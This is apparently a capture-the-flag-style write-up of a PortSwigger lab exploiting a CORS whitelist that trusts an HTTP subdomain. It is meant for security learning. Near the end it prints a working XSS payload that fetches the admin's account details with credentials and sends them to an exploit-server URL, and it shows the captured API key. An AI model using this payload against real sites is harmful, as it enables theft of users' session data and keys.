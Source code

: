 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a5fdb29b-5b71-4c9b-9269-78c3023b1a15)

## Solution :

## Solution:

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```
The application responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

The victim user makes any plain HTTP request.

The attacker injects a redirection to:
```
http://trusted-subdomain.vulnerable-website.com
```
The victim's browser follows the redirect.

The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:
```
https://vulnerable-website.com
```
The victim's browser makes the CORS request, including the origin:
```
http://trusted-subdomain.vulnerable-website.com
```
The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.

The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.


When we give Origin: evil.com or Origin: null , we don't see any ACAO header in the response.

But when we give Origin : "http://subdomain.lab-domain.com" we get the Access-Control-Allow-Origin in the response. [Note that we gave http instead of https]


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c83de926-c940-427b-a9d6-43fa59c0d805)

So if we provide subdoamin of the website along with http insecure protocol, we are able to bypass the whitelist.

Finding an XSS -
In real life cases, if an attacker performs a MITM attack , then he can exploit the CORS configuration to compromise the victim's interaction with the application. But in this lab we can't perform MITM attacks.

So the other way around to steal Administrator's API keys is by exploiting an XSS vulnearbility.

When we click on checkstock, we are taken to a new tab to display the result.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c4dc0507-4412-4c97-bbac-cc5284ba6683)

If we enter a simple alert() script in productID parameter, we get a pop up which confirms that it is vulnerable to XSS.


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cc462070-4b33-458d-8f30-196541d532c9)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e85d3437-769f-4142-9dd2-855934f1a4bf)

Go to exploit server and enter the following XSS payload to steal the API key of admin.

    <script>
    document.location="http://stock.0ae8004204acf28680553514000200cb.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ae8004204acf28680553514000200cb.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a2100d5046cf245808734260182007f.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>

Deliver the exploit to victim & view AccessLog , there we will find the API key of admin in the URL portion.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c4107db1-2971-4975-8137-dbaae550008a)

API key = `AnLNZVl7Y31ddXpuktzHx8mwVs3lzj7l`

Go and submit solution.

![Screenshot 2024-04-17 224321](https://github.com/ananthan05/Portswigger_labs/assets/140697378/821af511-6629-4fbd-b94e-6813d2147faf)

Lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8146eeef-ea5d-4e75-87fa-ceadbcf33e2a)
